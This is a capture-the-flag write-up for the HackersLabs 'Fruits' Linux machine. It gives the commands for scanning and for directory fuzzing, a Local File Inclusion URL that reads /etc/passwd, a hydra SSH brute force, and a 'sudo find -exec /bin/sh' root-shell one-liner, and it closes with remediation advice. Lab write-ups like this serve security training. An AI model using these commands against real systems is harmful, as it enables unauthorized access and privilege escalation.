






# Fruits - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackersLabs |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | `192.168.86.84` |
| **Date** | March 1, 2026 |

---

## 1. Executive Summary
The exploitation of the Fruits machine involved a multi-stage attack vector beginning with a Local File Inclusion (LFI) vulnerability. By fuzzing the web server, a hidden PHP script was discovered that allowed for arbitrary file read, leading to the disclosure of system users.
Using the identified username, a brute-force attack was successfully conducted against the SSH service, granting an initial foothold. Final privilege escalation was achieved by exploiting a misconfiguration in the sudoers file, where the user had permissions to run the find binary as root. By leveraging the execution capabilities of this binary (GTFOBins), I successfully spawned a root shell and fully compromised the system.

---

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning
The target IP was identified using `arp-scan`. Then I use the script whichSystem to determine the type of system and doing a ping to the ctf. I obtain that is a linux ctf with 64 of ttl
```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.84
```
Subsequently, a full port scan was executed:
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.84 -oG allPorts
extractPorts allPorts
nmap -p80 -sCV 192.168.86.84 -oN target
```

**Key Findings:**

| PORT | SERVICE | VERSION |
| :--- | :--- | :--- |
| **22** | ssh |  OpenSSH 9.2p1 Debian |
| **80** | http |  Apache httpd 2.4.57 ((Debian)) |

### 2.2 Web Enumeration
The landing page features a search box. 


While the default search returned 404 Not Found errors, directory fuzzing with gobuster revealed a hidden file: fruits.php.
Using a default search returned 404 Not Found errors so I proceeded to fuzzing with gobuster revealed a hidden file: fruits.php.
```bash
gobuster dir -u http://192.168.86.84/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```



Upon accessing http://192.168.86.84/fruits.php, the page appeared blank. Testing for Local File Inclusion (LFI) by targeting the /etc/passwd file proved successful: http://192.168.86.84/fruits.php?file=/etc/passwd



**Discovered users**
- bananaman
- root
## 3. Exploitation (Foothold)
### 3.1 SSH Brute Force
With a valid username (bananaman), I performed a dictionary attack against the SSH service using hydra and the rockyou.txt wordlist.
```bash
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.86.84
```


Finally, we authenticated via SSH as bananaman
```bash
ssh bananaman@192.168.86.84
whoami
```

## 4. Privilege Escalation
### 4.1 Sudo Enumeration
Checking for sudo permissions revealed that the user bananaman can run find as root without a password.
```bash
bananaman@fruits:~$ sudo -l
Matching Defaults entries for bananaman:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\, use_pty

User bananaman may run the following commands on fruits:
    (root) NOPASSWD: /usr/bin/find
```

### 4.2 Exploitation (GTFOBins)
In [GTFObins](https://gtfobins.org/gtfobins/find/) I find a way ofusing the find binary to execute a shell, I successfully escalated privileges to root:

```bash
sudo find . -exec /bin/sh \; -quit
```

## 5. Flags & Proof
Bananaman



Root



## 6. Remediation & Hardening
1. Sanitize Inputs: The fruits.php script should validate or whitelist parameters to prevent LFI.
2. Password Strength: Ensure users (like bananaman) use complex passwords resistant to wordlist attacks.
3. Principle of Least Privilege: Avoid giving sudo access to binaries like find that possess "exec" capabilities.

Authored by: Brutotes
[⬅️ Back to Home](../../README.md)